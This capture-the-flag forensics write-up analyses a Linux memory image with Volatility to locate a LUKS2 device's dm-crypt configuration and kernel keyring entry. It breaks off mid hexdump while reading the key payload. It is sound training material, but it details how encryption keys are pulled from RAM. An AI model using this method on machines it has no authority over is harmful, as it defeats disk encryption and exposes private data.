


<font size="5">Harvesting Severed Threads</font>

  1<sup>st</sup> 7 2026

  Prepared By: canopus

  Challenge Author: canopus

  Difficulty: <font color=red>Insane</font>

  Classification: Official


# Description

* Our infiltration team successfully breached House Vaultrune’s development pipeline, extracting a volatile memory snapshot and a vow-encrypted drive directly from their covert scriptoriums. The Black Heir's clerks are secretly engineering half-written, malicious mandates meant to quietly automate the city's ruin. Carve through the dead memory and break the encrypted codex to expose the offensive weapons they are building before they can be deployed.

# Synopsis

Harvesting Severed Threads is an Insane Forensics challenge, focusing on extracting the Master Volume Key of a LUKS2 partition, parsing the Linux Keyring to retrieve secrets, and finally retrieving the Wireguard keys and decrypting the traffic of an exfiltration test.

## Skills Required
    - Volatility
    - Linux
## Skills Learned
    - Volatility Symbol generation
    - Advanced Volatility
    - Linux internals
    - Wireguard Decryption
    - LUKS2 key extraction

# Solution

## Enumeration

The downloadable zip contains:
- a memory snapshot of a Linux system (`banners.Banners`)
- a network capture containing Wireguard packets
- a `dev_disk.img` without any real indication of what the disk is (data starts at `0x400000`)

By running `banners.Banners` we find that this is an Ubuntu System:

```bash
$ vol -f memory.elf banners
Volatility 3 Framework 2.28.1
Progress:  100.00               PDB scanning finished
Offset  Banner

0x196000e0      Linux version 7.0.0-22-generic (buildd@lcy02-amd64-061) (x86_64-linux-gnu-gcc (Ubuntu 15.2.0-16ubuntu1) 15.2.0, GNU ld (GNU Binutils for Ubuntu) 2.46) #22-Ubuntu SMP PREEMPT_DYNAMIC  (Ubuntu 7.0.0-22.22-generic 7.0.0)
0x197ce260      Linux version 7.0.0-22-generic (buildd@lcy02-amd64-061) (x86_64-linux-gnu-gcc (Ubuntu 15.2.0-16ubuntu1) 15.2.0, GNU ld (GNU Binutils for Ubuntu) 2.46) #22-Ubuntu SMP PREEMPT_DYNAMIC Mon May 25 15:54:34 UTC 2026 (Ubuntu 7.0.0-22.22-generic 7.0.0)
0x1b2b2820      Linux version 7.0.0-22-generic (buildd@lcy02-amd64-061) (x86_64-linux-gnu-gcc (Ubuntu 15.2.0-16ubuntu1) 15.2.0, GNU ld (GNU Binutils for Ubuntu) 2.46) #22-Ubuntu SMP PREEMPT_DYNAMIC Mon May 25 15:54:34 UTC 2026 (Ubuntu 7.0.0-22.22-generic 7.0.0)0)
0x76f818a8      Linux version 7.0.0-22-generic (buildd@lcy02-amd64-061) (x86_64-linux-gnu-gcc (Ubuntu 15.2.0-16ubuntu1) 15.2.0, GNU ld (GNU Binutils for Ubuntu) 2.46) #22-Ubuntu SMP PREEMPT_DYNAMIC Mon May 25 15:54:34 UTC 2026 (Ubuntu 7.0.0-22.22-generic 7.0.0)
```

We can easily construct the symbols for this snapshot by using [ubuntu_symbols_finder.py](https://github.com/Abyss-W4tcher/volatility3-symbols/blob/master/symbols_finders/ubuntu_symbols_finder.py). More info on Volatility ISF generation over at the Hack The Box [blogpost](https://www.hackthebox.com/blog/how-to-create-linux-symbol-tables-volatility).

This will download the debug version of the specific kernel package and produce a `.json.xz` symbol file that volatility can use to parse the memory snapshot.

We can tell volatility to add a symbol search directory using the `-s/--symbol-dirs` argument:

```bash
$ vol -f memory.elf -s syms linux.pslist
Volatility 3 Framework 2.28.1
Progress:  100.00               Stacking attempts finished
OFFSET (V)      PID     TID     PPID    COMM    UID     GID     EUID    EGID    CREATION TIME   File output

0x8a72818c8000  1       1       0       systemd 0       0       0       0       -       Disabled
0x8a72818c2a80  2       2       0       kthreadd        0       0       0       0       -       Disabled
0x8a72818c0000  3       3       2       pool_workqueue_ 0       0       0       0       -       Disabled
0x8a72818c5500  4       4       2       kworker/R-rcu_g 0       0       0       0       -       Disabled
0x8a72818e2a80  5       5       2       kworker/R-sync_ 0       0       0       0       -       Disabled
0x8a72818e0000  6       6       2       kworker/R-kvfre 0       0       0       0       -       Disabled
0x8a72818cd500  7       7       2       kworker/R-slub_ 0       0       0       0       -       Disabled
0x8a72818caa80  8       8       2       kworker/R-netns 0       0       0       0       -       Disabled
0x8a72818e8000  9       9       2       kworker/0:0     0       0       0       0       -       Disabled
0x8a72818ed500  10      10      2       kworker/0:0H    0       0       0       0       -       Disabled
0x8a72818e5500  12      12      2       kworker/u16:0   0       0       0       0       -       Disabled
0x8a72818faa80  13      13      2       kworker/R-mm_pe 0       0       0       0       -       Disabled
0x8a72818f0000  14      14      2       ksoftirqd/0     0       0       0       0       -       Disabled
0x8a72818f5500  15      15      2       rcu_preempt     0       0       0       0       -       Disabled
0x8a72818f2a80  16      16      2       rcu_exp_par_gp_ 0       0       0       0       -       Disabled
0x8a728190d500  17      17      2       rcu_exp_gp_kthr 0       0       0       0       -       Disabled
0x8a728190aa80  18      18      2       migration/0     0       0       0       0       -       Disabled
0x8a72818f8000  19      19      2       kprobe-optimize 0       0       0       0       -       Disabled
0x8a72818fd500  20      20      2       idle_inject/0   0       0       0       0       -       Disabled
[...]
```

With no apparent process to examine, let's run the `linux.bash` plugin:

```bash
$ vol -f memory.elf -s syms linux.bash
Volatility 3 Framework 2.28.1
Progress:  100.00               Stacking attempts finished
PID     Process CommandTime     Command

9030    bash    2026-06-27 23:19:57.000000 UTC  history
9030    bash    2026-06-27 23:19:57.000000 UTC  sdmem
9030    bash    2026-06-27 23:19:57.000000 UTC  sudo su
9030    bash    2026-06-27 23:20:13.000000 UTC  sudo ./dev_mnt/pyz/exfil
```

The user ran a binary called `exfil` from a supposedly mounted directory `dev_mnt`. We can query the mount points of the system by using the `linux.mountinfo` plugin with `--filter` for the `dev_mnt` directory:

```bash
$ vol -f memory.elf -s syms --filter "MOUNT_POINT,dev_mnt!" linux.mountinfo
Volatility 3 Framework 2.28.1
Progress:  100.00               Stacking attempts finished
MNT_NS_ID       MOUNT ID        PARENT_ID       MAJOR:MINOR     ROOT    MOUNT_POINT     MOUNT_OPTIONS   FIELDS  FSTYPE  MOUNT_SRC       SB_OPTIONS

4026531832      32      43      252:0   /       /home/dev5812/dev_mnt   rw,relatime             ext4    /dev/mapper/dev_volume  rw
[...]
```

Aha! The `dev_mnt` mounts a device named `dev_volume` that exists in the Device Mapper! The `252:0` major:minor version hints that this is probably a LUKS/LVM block device!

We are starting to get an understanding of what the `dev_disk.img` might be... If it's indeed LUKS2 then they are using a detached header. Let's confirm whether this is a LUKS2 device by using `linux.pagecache.Files` and filtering for `dev_volume`:

```bash
$ vol -f memory.elf -s syms --filter "FilePath,dev_volume!" linux.pagecache.Files
Volatility 3 Framework 2.28.1
Progress:  100.00               Stacking attempts finished
SuperblockAddr  MountPoint      Device  InodeNum        InodeAddr       FileType        InodePages      CachedPages     FileMode        AccessTime      ModificationTime        ChangeTime      FilePath   InodeSize

0x8a72855da800  /run    0:28    3855    0x8a7293941e98  DIR     1       0       drwxr-xr-x      2026-06-27 23:06:56.000000 UTC  2026-06-27 23:06:56.000000 UTC  2026-06-27 23:06:56.000000 UTC  /run/udev/links/disk\x2fby-id\x2fdm-name-dev_volume 60
0x8a72855da800  /run    0:28    3856    0x8a73354cd898  LNK     1       0       lrwxrwxrwx      2026-06-27 23:06:56.000000 UTC  2026-06-27 23:06:56.000000 UTC  2026-06-27 23:06:56.000000 UTC  /run/udev/links/disk\x2fby-id\x2fdm-name-dev_volume/b252:0 -> 0:/dev/dm-0   11
0x8a72855da800  /run    0:28    3849    0x8a7297070398  DIR     1       0       drwxr-xr-x      2026-06-27 23:06:56.000000 UTC  2026-06-27 23:06:56.000000 UTC  2026-06-27 23:06:56.000000 UTC  /run/udev/links/disk\x2fby-id\x2fdm-uuid-CRYPT-LUKS2-fee4d3439d49470d831500fb0e3101a0-dev_volume    60
0x8a72855da800  /run    0:28    3850    0x8a7297073698  LNK     1       0       lrwxrwxrwx      2026-06-27 23:06:56.000000 UTC  2026-06-27 23:06:56.000000 UTC  2026-06-27 23:06:56.000000 UTC  /run/udev/links/disk\x2fby-id\x2fdm-uuid-CRYPT-LUKS2-fee4d3439d49470d831500fb0e3101a0-dev_volume/b252:0 -> 0:/dev/dm-0      11
0x8a72855da800  /run    0:28    3846    0x8a72b0614698  DIR     1       0       drwxr-xr-x      2026-06-27 23:06:56.000000 UTC  2026-06-27 23:06:56.000000 UTC  2026-06-27 23:06:56.000000 UTC  /run/udev/links/mapper\x2fdev_volume        60
0x8a72855da800  /run    0:28    3847    0x8a72ab76cc98  LNK     1       0       lrwxrwxrwx      2026-06-27 23:06:56.000000 UTC  2026-06-27 23:06:56.000000 UTC  2026-06-27 23:06:56.000000 UTC  /run/udev/links/mapper\x2fdev_volume/b252:0 -> 0:/dev/dm-0  11
0x8a7281804800  /dev    0:7     943     0x8a73354ccc98  LNK     1       0       lrwxrwxrwx      2026-06-27 23:18:27.000000 UTC  2026-06-27 23:06:56.000000 UTC  2026-06-27 23:06:56.000000 UTC  /dev/disk/by-id/dm-name-dev_volume -> ../../dm-0    10
0x8a7281804800  /dev    0:7     941     0x8a7296614098  LNK     1       0       lrwxrwxrwx      2026-06-27 23:18:27.000000 UTC  2026-06-27 23:06:56.000000 UTC  2026-06-27 23:06:56.000000 UTC  /dev/disk/by-id/dm-uuid-CRYPT-LUKS2-fee4d3439d49470d831500fb0e3101a0-dev_volume -> ../../dm-0       10
0x8a7281804800  /dev    0:7     940     0x8a728619c098  LNK     1       0       lrwxrwxrwx      2026-06-27 23:18:41.000000 UTC  2026-06-27 23:06:56.000000 UTC  2026-06-27 23:06:56.000000 UTC  /dev/mapper/dev_volume -> ../dm-0   7
```

Okay this confirms it, we are looking for the LUKS2 key for `dev_disk.img`. For this, we need the help of the debug version of the `dm_crypt.ko` module, which is conveniantly provided within the debug dpkg `.ddpkg` we downloaded earlier!

The module with the DWARF information can be found at `linux-image-unsigned-7.0.0-22-generic-dbgsym_7.0.0-22.22_amd64/usr/lib/debug/lib/modules/7.0.0-22-generic/kernel/drivers/md/dm-crypt.ko.zst`. We need only to decompress it and then run `dwarf2json` on it, to extract a `json` file that be used with volatility, much like we did earlier but for the whole kernel:

- `dwarf2json linux --elf dm-crypt.ko | xz > dm-crypt.ko.json.xz`

Volatility uses the symbol table named `symbol_table_name1` for the 'prefix' of kernel symbols:

```bash
volshell -f memory.elf -s syms -l
Volshell (Volatility 3 Framework) 2.28.1
Readline imported successfully  Stacking attempts finished

Call help() to see available functions

Volshell mode        : Linux
Current Layer        : layer_name
Current Symbol Table : symbol_table_name1
Current Kernel Name  : kernel

(layer_name) >>>
```

We can add a symbol file as so:

```bash
[layer_name]> table_name = intermed.IntermediateSymbolTable.create(
         ...:             context=self.context,
         ...:             config_path=interfaces.configuration.path_join(
         ...:                 self.config_path, "dm_crypt"
         ...:             ),
         ...:             sub_path="",
         ...:             filename="dm-crypt",
         ...:         )

[layer_name]> print(table_name)
dm-crypt1

[layer_name]> self.context.symbol_space['dm-crypt1']
<volatility3.framework.symbols.intermed.IntermediateSymbolTable at 0x7f66b6e209d0>

[layer_name]>
```

Then we can create any symbol we need that is not exported from the `dm_crypt` module using the standard syntax of `symbol_table_name!symbol_name`! More on this a bit later

## The hunt for the LUKS2 Key

Our goal here is to reach `struct crypt_config`:

```bash
[layer_name]> dt("dm-crypt1!crypt_config")
dm-crypt1!crypt_config (744 bytes):
    0x0 :   dev                      *dm-crypt1!dm_dev
    0x8 :   start                    dm-crypt1!long long unsigned int
   0x10 :   n_allocated_pages        dm-crypt1!percpu_counter
   0x38 :   io_queue                 *dm-crypt1!workqueue_struct
   0x40 :   crypt_queue              *dm-crypt1!workqueue_struct
   0x48 :   write_thread_lock        dm-crypt1!spinlock_t
   0x50 :   write_thread             *dm-crypt1!task_struct
   0x58 :   write_tree               dm-crypt1!rb_root
   0x60 :   cipher_string            *dm-crypt1!char
   0x68 :   cipher_auth              *dm-crypt1!char
   0x70 :   key_string               *dm-crypt1!char
   0x78 :   iv_gen_ops               *dm-crypt1!crypt_iv_operations
   0x80 :   iv_gen_private           dm-crypt1!unnamed_7560efc8f6f72659
   0x90 :   iv_offset                dm-crypt1!long long unsigned int
   0x98 :   iv_size                  dm-crypt1!unsigned int
   0x9c :   sector_size              dm-crypt1!short unsigned int
   0x9e :   sector_shift             dm-crypt1!unsigned char
   0xa0 :   cipher_tfm               dm-crypt1!unnamed_7847079821a07ca4
   0xa8 :   tfms_count               dm-crypt1!unsigned int
   0xac :   workqueue_id             dm-crypt1!int
   0xb0 :   cipher_flags             dm-crypt1!long unsigned int
   0xb8 :   dmreq_start              dm-crypt1!unsigned int
   0xbc :   per_bio_data_size        dm-crypt1!unsigned int
   0xc0 :   flags                    dm-crypt1!long unsigned int
   0xc8 :   key_size                 dm-crypt1!unsigned int
   0xcc :   key_parts                dm-crypt1!unsigned int
   0xd0 :   key_extra_size           dm-crypt1!unsigned int
   0xd4 :   key_mac_size             dm-crypt1!unsigned int
   0xd8 :   integrity_tag_size       dm-crypt1!unsigned int
   0xdc :   integrity_iv_size        dm-crypt1!unsigned int
   0xe0 :   used_tag_size            dm-crypt1!unsigned int
   0xe4 :   tuple_size               dm-crypt1!unsigned int
   0xe8 :   tag_pool_max_sectors     dm-crypt1!unsigned int
   0xf0 :   tag_pool                 dm-crypt1!mempool_t
  0x138 :   req_pool                 dm-crypt1!mempool_t
  0x180 :   page_pool                dm-crypt1!mempool_t
  0x1c8 :   bs                       dm-crypt1!bio_set
  0x2c0 :   bio_alloc_lock           dm-crypt1!mutex
  0x2e0 :   authenc_key              *dm-crypt1!unsigned char
  0x2e8 :   key                      dm-crypt1!array
```

But before we do that, we need to first find the instance of `dm-0` within the kernel! We begin by grabbing the address of `_minor_idr`, a kernel variable that hands out the minor part of the `252:0` (`0`); a symbol that it is exported!

```python
[layer_name]> kernel_layer_name = self.config[interfaces.configuration.path_join("kernel", "layer_name")]
[layer_name]> vmlinux = self.context.modules[self.config['kernel']]
[layer_name]> _minor_idr = vmlinux.object_from_symbol(symbol_name="_minor_idr")
[layer_name]> dt(_minor_idr)
symbol_table_name1!idr (24 bytes) @ 0xffffbe3fcfc0:
   0x0 :   idr_rt       symbol_table_name1!xarray           offset: 0xffffbe3fcfc0
  0x10 :   idr_base     symbol_table_name1!unsigned int     0
  0x14 :   idr_next     symbol_table_name1!unsigned int     0
```

The resulting object is a node within an `xarray`:

```python
[layer_name]> dt(_minor_idr.idr_rt)
symbol_table_name1!xarray (16 bytes) @ 0xffffbe3fcfc0:
  0x0 :   xa_lock      symbol_table_name1!spinlock_t       offset: 0xffffbe3fcfc0
  0x4 :   xa_flags     symbol_table_name1!unsigned int     33554436
  0x8 :   xa_head      *symbol_table_name1!void            0x8a7284c7d6d2

[layer_name]> dt(_minor_idr.idr_rt.xa_head)
symbol_table_name1!pointer (8 bytes) @ 0xffffbe3fcfc8 -> 0x8a7284c7d6d2
     symbol_table_name1!void (0 bytes): offset: 0x8a7284c7d6d2
```

In order to use this node properly we have to "untag" it:

```c
/**
 * xa_untag_pointer() - Turn an XArray entry into a plain pointer.
 * @entry: XArray entry.
 *
 * If you have stored a tagged pointer in the XArray, call this function
 * to get the untagged version of the pointer.
 *
 * Context: Any context.
 * Return: A pointer.
 */
static inline void *xa_untag_pointer(void *entry)
{
	return (void *)((unsigned long)entry & ~3UL);
}
```

```python
[layer_name]> xa_node = vmlinux.object("xa_node", offset=_minor_idr.idr_rt.xa_head & ~3, absolute=True)

[layer_name]> dt(xa_node)
symbol_table_name1!xa_node (576 bytes) @ 0x8a7284c7d6d0:
    0x0 :   shift             symbol_table_name1!unsigned char     0
    0x1 :   offset            symbol_table_name1!unsigned char     0
    0x2 :   count             symbol_table_name1!unsigned char     1
    0x3 :   nr_values         symbol_table_name1!unsigned char     0
    0x8 :   parent            *symbol_table_name1!xa_node          0x0 (null pointer)
   0x10 :   array             *symbol_table_name1!xarray           0xffffbe3fcfc0
   0x18 :   callback_head     symbol_table_name1!callback_head     offset: 0x8a7284c7d6e8
   0x18 :   private_list      symbol_table_name1!list_head         offset: 0x8a7284c7d6e8
   0x28 :   slots             symbol_table_name1!array             ['0x8a7283124400', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)']
  0x228 :   marks             symbol_table_name1!array             ["['18446744073709551614']", "['0']", "['0']"]
  0x228 :   tags              symbol_table_name1!array             ["['18446744073709551614']", "['0']", "['0']"]
```

The slots attribute is what we are interested in, we cast the values into a `mapped_device` object:

```python
[layer_name]> md = vmlinux.object("mapped_device", offset=slot, absolute=True)

[layer_name]> dt(md)
symbol_table_name1!mapped_device (784 bytes) @ 0x8a7283124400:
    0x0 :   suspend_lock               symbol_table_name1!mutex                   offset: 0x8a7283124400
   0x20 :   table_devices_lock         symbol_table_name1!mutex                   offset: 0x8a7283124420
   0x40 :   table_devices              symbol_table_name1!list_head               offset: 0x8a7283124440
   0x50 :   map                        *symbol_table_name1!void                   0x8a729217b200
   0x58 :   flags                      symbol_table_name1!long unsigned int       0
   0x60 :   type_lock                  symbol_table_name1!mutex                   offset: 0x8a7283124460
   0x80 :   type                       symbol_table_name1!enum                    offset: 0x8a7283124480
   0x84 :   numa_node_id               symbol_table_name1!int                     -1
   0x88 :   queue                      *symbol_table_name1!request_queue          0x8a7284aacba0
   0x90 :   holders                    symbol_table_name1!atomic_t                offset: 0x8a7283124490
   0x94 :   open_count                 symbol_table_name1!atomic_t                offset: 0x8a7283124494
   0x98 :   immutable_target           *symbol_table_name1!dm_target              0x0 (null pointer)
   0xa0 :   immutable_target_type      *symbol_table_name1!target_type            0x0 (null pointer)
   0xa8 :   name                       symbol_table_name1!array                   ['50', '53', '50', '58', '48', '0', '0', '0', '0', '0', '0', '0', '0', '0', '0', '0']
   0xb8 :   disk                       *symbol_table_name1!gendisk                0x8a728272fc00
[...]

[layer_name]> utility.array_to_string(md.name)
Out[13]: '252:0'
```

We are actually on the right track here, since whe have a correct name of our mapped device! The next step is to cast the `.map` attribute into a `dm_table` type:

```python
[layer_name]> dm_table = vmlinux.object("dm_table", offset=md.map, absolute=True)

[layer_name]> dt(dm_table)
symbol_table_name1!dm_table (296 bytes) @ 0x8a729217b200:
    0x0 :   md                        *symbol_table_name1!mapped_device              0x8a7283124400
    0x8 :   type                      symbol_table_name1!enum                        offset: 0x8a729217b208
    0xc :   depth                     symbol_table_name1!unsigned int                1
   0x10 :   counts                    symbol_table_name1!array                       ['1', '0', '0', '0', '0', '0', '0', '0', '0', '0', '0', '0', '0', '0', '0', '0']
   0x50 :   index                     symbol_table_name1!array                       ['0x8a729bd13800', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)']
   0xd0 :   num_targets               symbol_table_name1!unsigned int                1
   0xd4 :   num_allocated             symbol_table_name1!unsigned int                8
   0xd8 :   highs                     *symbol_table_name1!long long unsigned int     0x8a729bd13800
   0xe0 :   targets                   *symbol_table_name1!dm_target                  0x8a729bd13840
   0xe8 :   immutable_target_type     *symbol_table_name1!target_type                0x0 (null pointer)
   0xf0 :   flush_bypasses_map        symbol_table_name1!bitfield                    offset: 0x8a729217b2f0
   0xf0 :   integrity_supported       symbol_table_name1!bitfield                    offset: 0x8a729217b2f0
   0xf0 :   singleton                 symbol_table_name1!bitfield                    offset: 0x8a729217b2f0
   0xf4 :   mode                      symbol_table_name1!unsigned int                3
   0xf8 :   devices                   symbol_table_name1!list_head                   offset: 0x8a729217b2f8
  0x108 :   event_fn                  *symbol_table_name1!function                   0xffffbc9345c0
  0x110 :   event_context             *symbol_table_name1!void                       0x8a7283124400
  0x118 :   mempools                  *symbol_table_name1!dm_md_mempools             0x0 (null pointer)
  0x120 :   crypto_profile            *symbol_table_name1!blk_crypto_profile         0x0 (null pointer)

[layer_name]> disk_name = utility.array_to_string(md.disk.disk_name)

[layer_name]> disk_name
Out[18]: 'dm-0'
```

Finally, this is where the new `IntermediateSymbolTable` we created earlier comes in! We create the non-exported type of `crypt_config` on top of `dm_table.targets.private`:

```python
[layer_name]>  crypt_config = self.context.object(
         ...:                 object_type=f"{table_name}{BANG}crypt_config",
         ...:                 offset=dm_table.targets.private,
         ...:                 layer_name=kernel_layer_name,
         ...:             )

[layer_name]> dt(crypt_config)
dm-crypt1!crypt_config (744 bytes) @ 0x8a729bd10400:
    0x0 :   dev                      *dm-crypt1!dm_dev                      0x8a72ab5230d8
    0x8 :   start                    dm-crypt1!long long unsigned int       8192
   0x10 :   n_allocated_pages        dm-crypt1!percpu_counter               offset: 0x8a729bd10410
   0x38 :   io_queue                 *dm-crypt1!workqueue_struct            0x8a729bd1c400 (unknown sized workqueue_struct)
   0x40 :   crypt_queue              *dm-crypt1!workqueue_struct            0x8a7287861200 (unknown sized workqueue_struct)
   0x48 :   write_thread_lock        dm-crypt1!spinlock_t                   offset: 0x8a729bd10448
   0x50 :   write_thread             *dm-crypt1!task_struct                 0x8a729bcfaa80
   0x58 :   write_tree               dm-crypt1!rb_root                      offset: 0x8a729bd10458
   0x60 :   cipher_string            *dm-crypt1!char                        0x8a728580d520
   0x68 :   cipher_auth              *dm-crypt1!char                        0x0 (null pointer)
   0x70 :   key_string               *dm-crypt1!char                        0x8a728106bf80
   0x78 :   iv_gen_ops               *dm-crypt1!crypt_iv_operations         0xffffc09be2a0
   0x80 :   iv_gen_private           dm-crypt1!unnamed_7560efc8f6f72659     offset: 0x8a729bd10480
   0x90 :   iv_offset                dm-crypt1!long long unsigned int       0
   0x98 :   iv_size                  dm-crypt1!unsigned int                 16
   0x9c :   sector_size              dm-crypt1!short unsigned int           2048
   0x9e :   sector_shift             dm-crypt1!unsigned char                2
   0xa0 :   cipher_tfm               dm-crypt1!unnamed_7847079821a07ca4     offset: 0x8a729bd104a0
   0xa8 :   tfms_count               dm-crypt1!unsigned int                 1
   0xac :   workqueue_id             dm-crypt1!int                          1
   0xb0 :   cipher_flags             dm-crypt1!long unsigned int            0
   0xb8 :   dmreq_start              dm-crypt1!unsigned int                 248
   0xbc :   per_bio_data_size        dm-crypt1!unsigned int                 824
   0xc0 :   flags                    dm-crypt1!long unsigned int            2
   0xc8 :   key_size                 dm-crypt1!unsigned int                 64
   0xcc :   key_parts                dm-crypt1!unsigned int                 1
   0xd0 :   key_extra_size           dm-crypt1!unsigned int                 0
   0xd4 :   key_mac_size             dm-crypt1!unsigned int                 0
   0xd8 :   integrity_tag_size       dm-crypt1!unsigned int                 0
   0xdc :   integrity_iv_size        dm-crypt1!unsigned int                 0
   0xe0 :   used_tag_size            dm-crypt1!unsigned int                 0
   0xe4 :   tuple_size               dm-crypt1!unsigned int                 0
   0xe8 :   tag_pool_max_sectors     dm-crypt1!unsigned int                 0
   0xf0 :   tag_pool                 dm-crypt1!mempool_t                    offset: 0x8a729bd104f0
  0x138 :   req_pool                 dm-crypt1!mempool_t                    offset: 0x8a729bd10538
  0x180 :   page_pool                dm-crypt1!mempool_t                    offset: 0x8a729bd10580
  0x1c8 :   bs                       dm-crypt1!bio_set                      offset: 0x8a729bd105c8
  0x2c0 :   bio_alloc_lock           dm-crypt1!mutex                        offset: 0x8a729bd106c0
  0x2e0 :   authenc_key              *dm-crypt1!unsigned char               0x0 (null pointer)
  0x2e8 :   key                      dm-crypt1!array                        []
```

There is an interesting entry named `key`, however when we read from it, we get nothing:

```python
[layer_name]> dq(crypt_config.key.vol.offset)
0x8a729bd106e8    0000000000000000 0000000000000000    ........ ........
0x8a729bd106f8    0000000000000000 0000000000000000    ........ ........
0x8a729bd10708    0000000000000000 0000000000000000    ........ ........
0x8a729bd10718    0000000000000000 0000000000000000    ........ ........
0x8a729bd10728    0000000000000000 0000000000000000    ........ ........
0x8a729bd10738    0000000000000000 0000000000000000    ........ ........
0x8a729bd10748    0000000000000000 0000000000000000    ........ ........
0x8a729bd10758    0000000000000000 0000000000000000    ........ ........
```

Before looking for the key, we can extract some information about the partition, and since we are dealing with a detached header, we will need this type of information to mount the volume. 

**Note:** We are not looking for the passphrase of the `cryptsetup open` command; we are looking for the key that actually encrypts data (volume key).

From the above config we can find some interesting constants:

- Partition Start `.start` is at 8192 _sectors_, block devices use a 512-byte sector => hex(8192 * 512) = `0x400000`. Which is where we found the data to begin earlier!
- The _physical_ Sector size is 2048 bytes
- The cipher used _is not AES_; instead is `serpent-xts-plain64` (`utility.address_to_string(self.context, kernel_layer_name, crypt_config.cipher_string, 256)`)
- The key string (to identify the stored key) is: `logon:cryptsetup:fee4d343-9d49-470d-8315-00fb0e3101a0-d0` (`utility.address_to_string(self.context, kernel_layer_name, crypt_config.key_string, 256)`)

Hmm... Why would the kernel need to identify the key! the `logon` part of that key string is the key type inside the kernel's keyring!

```man
# man 7 keyrings

"logon" (since Linux 3.3)
       This  key type is essentially the same as "user", but it does not provide reading (i.e., the keyctl(2) KEYCTL_READ
       operation), meaning that the key payload is never visible from user space.  This is suitable for storing username-
       password pairs that should not be readable from user space.

       The description of a "logon" key must start with a non-empty colon-delimited prefix whose purpose is  to  identify
       the  service  to which the key belongs.  (Note that this differs from keys of the "user" type, where the inclusion
       of a prefix is recommended but is not enforced.)
```

## Parsing the kernel Keyring

We begin by finding the root of the keyring (a Red-Black Tree):

```python
[layer_name]> key_serial_tree = vmlinux.object_from_symbol("key_serial_tree")

[layer_name]> dt(key_serial_tree)
symbol_table_name1!rb_root (8 bytes) @ 0xffffbec2e0b8:
  0x0 :   rb_node     *symbol_table_name1!rb_node     0x8a7285ab5408
```

Volatility has some great abstractions that we can use to parse such a tree without much hassle, namely the `.get_nodes()` and the `container_of()`:

```python
for node in key_serial_tree.get_nodes():
    key_t = linux.LinuxUtilities.container_of(
        node, "key", "serial_node", vmlinux
    )
    
    description = utility.address_to_string(
        self.context, kernel_layer_name, key_t.description, 256
    )
    
    if "cryptsetup" not in description:
        continue

```

We iterate over all nodes and we cast each node into `struct key` and check its description for the `cryptsetup` word. (The description is the key string we found a bit earlier).

The key exists in the `.payload.data` attribute which is an array of _kernel heap chunks_!

```python
[layer_name]> dt(key_t.payload)
symbol_table_name1!key_payload (32 bytes) @ 0x8a72840143b8:
  0x0 :   data          symbol_table_name1!array     ['0x8a7281d6d000', '0x0 (null pointer)', '0x0 (null pointer)', '0x0 (null pointer)']
  0x0 :   rcu_data0     *symbol_table_name1!void     0x8a7281d6d000

[layer_name]> dq(key_t.payload.data[0])
0x8a7281d6d000    0000000000000000 0000000000000000    ........ ........
0x8a7281d6d010    0000000000000040 14c045cb4d2b096d    .......@ ..E.M+.m
0x8a7281d6d020    ce39eee8b706531e f4f6754b4bcbb8ec    .9....S. ..uKK...
